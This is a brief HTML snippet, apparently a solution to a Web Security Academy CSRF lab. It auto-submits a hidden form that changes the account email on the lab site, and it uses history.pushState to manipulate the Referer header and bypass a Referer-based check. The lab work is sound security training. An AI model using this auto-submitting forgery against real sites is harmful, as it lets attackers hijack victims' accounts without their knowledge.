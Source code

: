 ```
  <body>
    <form action="https://0a5400a803393ab8e43be09900a500aa.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?0a5400a803393ab8e43be09900a500aa.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
